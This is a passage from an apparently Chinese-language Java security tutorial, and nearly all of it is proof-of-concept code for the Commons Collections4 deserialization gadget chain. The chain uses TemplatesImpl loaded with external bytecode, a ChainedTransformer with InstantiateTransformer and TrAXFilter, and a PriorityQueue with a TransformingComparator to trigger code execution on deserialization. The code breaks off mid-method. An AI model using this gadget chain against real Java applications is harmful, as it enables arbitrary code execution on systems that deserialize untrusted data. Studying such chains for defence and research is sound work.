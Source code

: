 构造一下`poc`  
```java  
package org.example.CommonsCollections;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;    
import org.apache.commons.collections4.Transformer;    
import org.apache.commons.collections4.comparators.TransformingComparator;    
import org.apache.commons.collections4.functors.ChainedTransformer;    
import org.apache.commons.collections4.functors.ConstantTransformer;    
import org.apache.commons.collections4.functors.InstantiateTransformer;    
    
import javax.xml.transform.Templates;    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.nio.file.Files;    
import java.nio.file.Paths;    
import java.util.PriorityQueue;    
    
public class CommonsCollections4 {    
    public static void main(String[] args) throws Exception {    
        TemplatesImpl templatesImpl = new TemplatesImpl();    
        Class tc = templatesImpl.getClass();    
    
        Field nameField = tc.getDeclaredField("_name");    
        nameField.setAccessible(true);    
        nameField.set(templatesImpl,"test");    
    
        Field bytecodesField = tc.getDeclaredField("_bytecodes");    
        bytecodesField.setAccessible(true);    
        byte[] code = Files.readAllBytes(Paths.get("/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/JavaThings/VulnDemo/src/main/java/org/example/LoaderDemo/Test.class"));    
        byte[][] codes = {code};    
        bytecodesField.set(templatesImpl,codes);    
    
        Field tfactoryField = tc.getDeclaredField("_tfactory");    
        tfactoryField.setAccessible(true);    
        tfactoryField.set(templatesImpl,new TransformerFactoryImpl());    
    
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl});    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(TrAXFilter.class),    
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl})    
        };    
    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);    
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);    
        Class priorityClass = priorityQueue.getClass();    
        Field sizeField = priorityClass.getDeclaredField("size");    
        sizeField.setAccessible(true);    
        sizeField.set(priorityQueue,2);    
    
        //serialize(priorityQueue);    
        unserialize("ser.bin");    
```